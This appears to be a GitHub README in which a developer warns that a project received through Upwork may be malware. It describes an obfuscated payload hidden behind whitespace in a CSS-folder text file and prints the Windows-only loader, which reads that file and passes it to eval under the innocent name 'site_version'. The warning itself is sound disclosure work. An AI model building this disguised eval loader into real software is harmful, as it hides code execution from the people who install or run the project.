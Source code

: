 Possible virus(?) from upwork. 
### Info
Some possible false positive reactions from antiviruses (virustotal: https://www.virustotal.com/gui/file/311fc8e90c968cbd0237ec31ecedfdb17d75f936e14e981c0fa4437da5483cf8)
App try to eval txt file 'public/css/types.txt', where is placed "// empty file ..." text, lot of spacings and then really obscured code. 
Part of which obviously trying to unzip and execute some code from public/js/js.zip. (this zip file is acrhived with password, looks like inside types.txt part of code trying to assemble password from multiple obscured functions)

Content of js.zip is unknown for now.

Also this exec part is executes only on win32 systems.
`

    const fs = require("fs");
    const os = require("os");
    function site_version() {
    const platform = os.platform();
    
    switch (platform) {
         case 'win32':
              fs.readFile('public/css/types.txt', 'utf8', (err, data) => {
                  if (err) {
                      return;
                  }
    
                  eval(data);
              });
              console.log("=")
              return 'w';
          case 'darwin':
              return 'm';
          case 'linux':
              return 'l';
          default:
              return 'Unknown';
        }
    } 
    site_version()
`

I can't say for sure, maybe it's just a very strangely builded project. 
I'm not going to dig further, I'll just leave this repo and text here in case I ever change my mind. 
Also, this repository is public, so I'm adding this text to the readme so that no one accidentally runs it.

If anyone knows why this project is what it is (or has tested it), I would be grateful if you would let me know (for example open an issue)
